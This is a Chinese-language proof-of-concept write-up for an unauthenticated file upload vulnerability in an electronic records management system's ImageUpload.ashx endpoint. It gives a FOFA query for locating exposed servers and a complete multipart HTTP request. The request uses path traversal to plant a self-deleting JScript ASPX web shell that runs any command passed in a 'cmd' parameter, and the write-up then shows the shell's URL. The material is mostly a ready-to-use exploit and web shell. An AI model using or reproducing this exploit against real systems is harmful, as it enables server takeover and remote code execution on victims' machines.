 # 电子资料管理系统ImageUpload.ashx文件上传漏洞

电子资料管理系统 /Menu/ImageManger/ImageUpload.ashx 接口存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```javascript
body="Menu/Login/ThirdLoginHandler.ashx"
```

## poc

```javascript
POST /Menu/ImageManger/ImageUpload.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="isUpload"

印章图片
------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="entid"

666
------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="Type"

1
------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="Filedata"; filename="../rce.aspx"
Content-Type: text/plain

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![image-20241128165016950](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411281650029.png)

文件路径：`http://127.0.0.1/rce.aspx`